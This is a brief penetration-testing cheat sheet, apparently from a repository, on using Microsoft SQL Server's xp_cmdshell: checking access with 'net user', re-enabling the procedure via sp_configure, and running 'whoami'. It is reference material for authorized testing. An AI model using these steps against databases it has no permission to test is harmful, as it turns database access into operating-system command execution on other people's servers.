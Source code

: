 # Microsoft SQL server
All info: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

## xp_cmdshell
A common target is to run the stored procedure xp_cmdshell  
Check if user can run:
```bash
EXEC xp_cmdshell 'net user';
```
if deactivated:
```bash
# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
what also works:
```bash
xp_cmdshell 'whoami'
```

